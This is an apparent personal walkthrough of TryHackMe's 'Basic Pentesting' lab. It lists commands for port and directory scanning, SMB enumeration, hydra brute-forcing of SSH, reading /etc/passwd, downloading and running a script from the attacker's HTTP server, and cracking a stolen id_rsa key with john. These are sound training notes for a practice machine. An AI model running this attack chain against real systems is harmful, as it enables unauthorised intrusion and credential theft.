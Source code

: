 ```yaml
---
description: https://tryhackme.com/room/basicpentestingjt
---
```


# Basic Pentesting

```
gobuster dir -u https://acf51fdf1ef3226bc0c107b5001d0039.web-security-academy.net/ -w /usr/share/wordlists/dirb/common.txt -s 200,204,301,302,304,307,403,404,500

```

Wrap-UP:

1.  use **nmap** to scan the open ports

    ```
    nmap -sV <ip>
    ```
2. use **gobuster** to enumerate hidden folders in web server\
   Syntax: gobuster -u \[HTTP://ip] -w \[wordlist]\
   gobuster dir -u http://ip -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \

3.  use **Enum4Linux** to scan the whole system\
    Syntax: Enum4linux -a \[IP]\
    Instead of grabbing user information from Enum4Linux output, we can scan smb to get information:\
    Syntax: smbclient \[IP]//\[smb share] -U \[username, if applicable]\
    ![](<../.gitbook/assets/image (5) (1).png>)\
    Connect:\


    ```
    smbclient //<IP>/anonymous

    staff.txt:
    Announcement to staff:

    PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
    this is how mistakes happen. (This means you too, Jan!)

    -Kay
    ```
4.  Use **hydra** to brutal-forcing the password:\
    Syntax: hydra -l \[username] -P \[wordlist] \[IP] \[service]\
    OR\
    Syntax: hydra -l \[username] -P \[wordlist] \[service://IP]\
    \


    ```
    hydra -l jan -P /usr/share/wordlists/rockyou.txt <IP> ssh


    ```
5.  login with the credentials get from previous steps.\


    ```
    cat /etc/passwd

    SSH into the machine using the discovered credentials (user: jan):

    ssh jan@<target-ip-address>
    ```
6.  Use **privilege escalation tool like LinEnum or Linpeas**\
    transport the linpeas:\
    scp \[linenum.sh] \[user@ip]\
    use linenum.sh to scan:\
    ./linenum.sh | tee long.txt\
    \


    Start a Python HTTP server to transfer scripts from your local machine to the target:

    > python3 -m http.server — bind \<your-tun0-ip> 8000
    >
    > \
    > ![](<../.gitbook/assets/image (8).png>)\
    >
    >
    > On the target machine, download the script:
    >
    > > wget http://\<your-tun0-ip>:8000/\<script-file-name>\
    > > \
    > > \
    > >
    > >
    > > Make the script executable and run it:
    > >
    > > > chmod +x \<script-name>\
    > > > ./\<script-name>
    > >
    > > \
    > > ![](<../.gitbook/assets/image (9).png>)\
    > > \
    > > chmod 600 id\_rsa
7. From task 6 we can find the id\_rsa hash key for kay to login. Copy the file to the local machine and use john to crack the hash file.\
   Syntax: **ssh2john** \[file] > hash.txt\
   &#x20;    ssh2john id\_rsa > john-pass\
   Crack the hash file password:\
   Syntax: john hash.txt — wordlist=\[wordlist]\
   john — wordlist=/usr/share/wordlists/rockyou.txt john-pass\
   ![](<../.gitbook/assets/image (11).png>)
8.  ssh to the new user with cracked rsa\_id\


    SSH into user `kay` using the cracked key:

    > ssh -i id\_rsa kay@\<target-ip>\
    > ![](<../.gitbook/assets/image (12).png>)\
    > \
    > ![](<../.gitbook/assets/image (13).png>)
